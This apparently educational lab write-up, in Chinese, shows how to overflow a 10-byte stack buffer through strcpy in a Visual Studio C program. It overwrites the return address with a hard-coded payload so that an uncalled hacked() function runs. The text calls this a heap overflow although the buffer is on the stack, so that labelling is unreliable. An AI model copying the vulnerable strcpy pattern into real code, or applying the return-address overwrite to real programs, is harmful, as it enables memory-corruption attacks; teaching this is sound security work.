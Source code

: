 # 缓冲区溢出漏洞利用 #
## 实验环境 ##
- Visual Studio 2017

## 实验目的 ##
- 建立在上一个实验缓冲区溢出漏洞观察实验的基础上，利用堆溢出漏洞，使得一段原本没有调用函数hacked()的代码，调用hacked()函数。

## 实验内容 ##
- 代码
    ```
    #define _CRT_SECURE_NO_WARNINGS
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    //堆溢出：即使函数没有被调用，也可以被执行
    void hacked() {
      printf("hacked!!");
    }
    int sub(char* x)
    {
      char y[10];
      //源地址的数据一个个写到目的地址，直到源地址读到\0为止
      //未考虑长度，用新的数据覆盖了原数据
      strcpy(y, x);
      return 0;
    }
    //在调试选项中输入的参数
    int main(int argc, char** argv)
    {
      //argv[0]是程序名 第二个参数才是输入的数据
      //在命令行下输入
      if (argc > 1)sub(argv[1]);
      printf("exit");
    }
    ```
- 修改项目属性，具体过程见缓冲区溢出观察实验。
- 在属性->配置属性->调试->命令参数的地方填入一个长度小于10的参数，正常运行该代码，是不会调用函数hacked()。
- 由上一个实验知道，当参数长度超过规定范围的时候，就会覆盖返回地址，此时将程序运行时的hacked函数的地址填在返回地址的位置，就可以实现程序自动跳转到hacked函数，从而执行hacked函数，以下是具体的步骤
 - 固定程序运行的基址 由于Visual Studio设置在运行时是随机基址，则每次运行程序的时候，函数的地址都是随机分配的，不利于实验，所以设置为固定基址
 ![](imgs/1.png)
 - 判断返回地址的位置
   - 首先用参数测试，看到哪一位是返回地址，假设填入的长参数如下
   ![](imgs/2.png)
   - 运行调试器，转到反汇编，观察返回地址的位置
   ![](imgs/3.png)
   - hacked函数的地址
   ![](imgs/4.png)
   - 由于将地址的\x参数填在Visual Studio的命令参数处会被Visual Studio自动转义从而失效，所以改成字符串常量传参，代码修改如下
       ```
     //在调试选项中输入的参数
     int main(int argc, char** argv)
     {
       //argv[0]是程序名 第二个参数才是输入的数据
       //在命令行下输入
       char str[50] = "";
       // 地址需要反过来写 hacked函数的地址为 21011580
       strcpy(str ,"1234123512361237\x80\x15\x01\x21");
       if (argc > 1)
        sub(str);
       printf("exit");
     }
       ```
   - 成功执行hacked函数，由于hacked函数执行完后，回来原来的地方时即sub函数，地址已经被修改，所以无法正常回到main函数，即报错 
   ![](imgs/5.png)